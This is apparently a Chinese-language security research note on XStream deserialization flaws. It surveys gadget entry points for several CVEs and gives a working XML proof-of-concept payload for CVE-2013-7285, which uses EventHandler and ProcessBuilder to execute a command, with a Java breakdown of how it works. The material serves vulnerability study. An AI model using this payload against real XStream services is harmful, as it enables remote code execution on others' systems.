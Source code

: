## XStream反序列化漏洞

### 漏洞挖掘特点
从某个`XXXConverter.unmarshal()`方法入手。看该unmarshal是否能调用到TreeMap.put()、HashMap.put()等反序列化常见调用点。例如
CVE-2013-7285，将`TreeSetConverter.unmarshal()`作为入口，调用到TreeMap.put()。参照CC8的构造思路，向下寻找compare方法。      
CVE-2020-26217，将`MapConverter.unmarshal()`作为入口，调用到HashMap.put()，参照CC6，可以向下从hash、hashCode入手进行构造。       
CVE-2021-21345，将`AbstractReflectionConverter.unmarshal()`作为入口，调用PriorityQueue.readObject()，参照CommonsBeautils，可以向下从heapify、siftDownUsingComparator、compare入手构造。      
CVE-2021-39144，将`AbstractReflectionConverter.unmarshal()`作为入口，调用PriorityQueue.readObject()，参照CommonsBeautils，siftDownComparable入手构造     

### CVE-2013-7285
* Affected Version <= 1.4.6 (and 1.4.10)  
* POC
```
<sorted-set>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>/System/Applications/Calculator.app</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

* #### POC拆解
动态代理（在运行期间动态创建接口对象）。demo如下，Hello是要实现的接口。hello.morning会自动调用InvocationHandler.invoke
```
InvocationHandler handler = new InvocationHandler() {
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {...}
};

Hello hello = (Hello) Proxy.newProxyInstance(
    Hello.class.getClassLoader(), // 传入ClassLoader
    new Class[] { Hello.class }, // 传入要实现的接口
    handler); // 传入处理调用方法的InvocationHandler
hello.morning("Bob");
```
poc的动态代理写法，compareTo会自动调用EventHandler.invoke
```
EventHandler ih = new EventHandler(new java.lang.ProcessBuilder("open","/System/Applications/Calculator.app"),"start",null,null);
Comparable cp = (Comparable) Proxy.newProxyInstance(Comparable.class.getClassLoader(),new Class[] { Comparable.class },ih);
cp.compareTo(null);
```
上述Java对象调用过程如何转换成xml？
外层，动态代理对象Proxy.newProxyInstance参数，官方也给出了动态代理转换Converter的Demo，即xml对应interface和InvocationHandler参数，类需要采用全限定类名
```
public static Object newProxyInstance(ClassLoader loader,Class<?>[] interfaces,InvocationHandler h)

<dynamic-proxy>
  <interface>java.lang.Comparable</interface>
  <handler class="java.beans.EventHandler">
    ...
  </handler>
```